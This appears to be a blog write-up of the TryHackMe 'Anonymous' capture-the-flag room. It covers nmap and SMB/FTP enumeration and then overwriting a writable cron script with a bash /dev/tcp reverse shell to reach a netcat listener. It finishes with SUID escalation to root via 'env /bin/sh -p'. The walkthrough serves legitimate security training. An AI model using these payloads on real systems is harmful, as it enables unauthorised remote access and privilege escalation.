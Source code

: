 ```yaml
---
title: "Anonymous"
date: 2025-02-03 00:00:00 +0800
categories: [Writeups, TryHackMe]
tags: [tryhackme,thm,anonymous]
image:
  path: https://tryhackme-images.s3.amazonaws.com/room-icons/876a5185c429c9703e625cb48c39637b.png
  #alt: Anonymous room logo
---
```


## Introduction


Room: [Anonymous](https://tryhackme.com/r/room/anonymous)

Author: [Nameless0ne](https://tryhackme.com/r/p/Nameless0ne)

## System


```bash
10.10.166.189
anonymous
OS: Ubuntu

Users
namelessone
```

## Initial Access



### Enumeration

```bash
sudo nmap -sS -T4 -Pn 10.10.166.189
sudo nmap -sSV -A -p 21,22,139,445 -T4 -Pn 10.10.166.189
```

Nmap scan shows `4` open ports

![image.png](/assets/img/2025-02-03-thm-anonymous/image.png)

```bash
21 - vsftpd 2.0.8 or later
22 - OpenSSH 7.6p1
139 - Samba smbd 3.X - 4.X
445 - Samba smbd 4.7.6-Ubuntu
```

### SMB Enumeration

We can use Nmap to know what are the file shares available on the host

Resource: https://nmap.org/nsedoc/scripts/smb-enum-shares.html

```bash
nmap --script smb-enum-shares.nse -p445 10.10.166.189
```

![image.png](/assets/img/2025-02-03-thm-anonymous/image%201.png)

We see an interesting fileshare called `pics` . We can also see that Anonymous access is allowed for the share.

We can also use `SMBCLIENT` to enumerate file shares

```bash
smbclient -L \\\\10.10.166.189\\
```

![image.png](/assets/img/2025-02-03-thm-anonymous/image%202.png)

We can then access the file share using `SMBCLIENT` as well.

```bash
smbclient \\\\10.10.166.189\\pics -U anonymous --password anonymous
```

![image.png](/assets/img/2025-02-03-thm-anonymous/image%203.png)

We have two interesting files, `corgo2.jpg` and `puppos.jpeg`. Unfortunately, there are no interesting information on those files using `exiftool`. Now let’s move on enumerating FTP.

### FTP Enumeration

We know from the Nmap scan that Anonymous access is enabled. Let’s try to access the FTP server.

```bash
ftp anonymous@10.10.166.189
```

Upon accessing the FTP server, we found three interesting files. Notice that we have read/write/execute access to the `clean.sh` file.

![image.png](/assets/img/2025-02-03-thm-anonymous/image%204.png)

Let’s download those files

```bash
get clean.sh
get removed_files.log
get to_do.txt
```

![image.png](/assets/img/2025-02-03-thm-anonymous/image%205.png)

Now let’s check out the contents of the files

![image.png](/assets/img/2025-02-03-thm-anonymous/image%206.png)

![image.png](/assets/img/2025-02-03-thm-anonymous/image%207.png)

![image.png](/assets/img/2025-02-03-thm-anonymous/image%208.png)

After reviewing the contents of the script file, it seems it is used as a scheduled task to delete the contents of the `/tmp/` directory and if there are no files to delete it will store the message to a log file. 

Remember that we have a write access to the clean.sh file. We can take advantage of this to manipulate the file to allow us to run a reverse shell.

We can utilize the [Reverse Shell Cheat Sheet](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#bash-tcp for the reverse shell payload.) from Internal All The Things by swisskyrepo.

```bash
bash -i >& /dev/tcp/10.0.0.1/4242 0>&1
```

Create a netcat listener

```bash
nc -nvlp 8484
```

Modify the `clean.sh` file 

![image.png](/assets/img/2025-02-03-thm-anonymous/image%209.png)

Upload `clean.sh` to the target and wait for it to run.  If successful, we should now have a shell.

![image.png](/assets/img/2025-02-03-thm-anonymous/image%2010.png)

Nice! we got a shell and a user access.

### User Flag

Now let’s locate the user flag.

![image.png](/assets/img/2025-02-03-thm-anonymous/image%2011.png)

## Privilege Escalation



### Enumeration

Upon doing some PrivEsc path enumeration, we have found was to PrivEsc via `SUID`

```bash
find / -type f -perm -04000 -ls 2>/dev/null
```

Searhcing through [GTFOBins](https://gtfobins.github.io/gtfobins/env/#suid) we found out that we can escalate via SUID using `/usr/bin/env`

![image.png](/assets/img/2025-02-03-thm-anonymous/image%2012.png)

![image.png](/assets/img/2025-02-03-thm-anonymous/image%2013.png)

### Escalation via SUID

```bash
env /bin/sh -p
```

![image.png](/assets/img/2025-02-03-thm-anonymous/image%2014.png)

Alright! we are now `root`.

### Root Flag

Now let’s get the root flag.

![image.png](/assets/img/2025-02-03-thm-anonymous/image%2015.png)


Thanks for reading my write-up, I hope you enjoyed it! 😊

![ThankYouThanksGIF.gif](/assets/img/2025-02-03-thm-anonymous/ThankYouThanksGIF.gif)
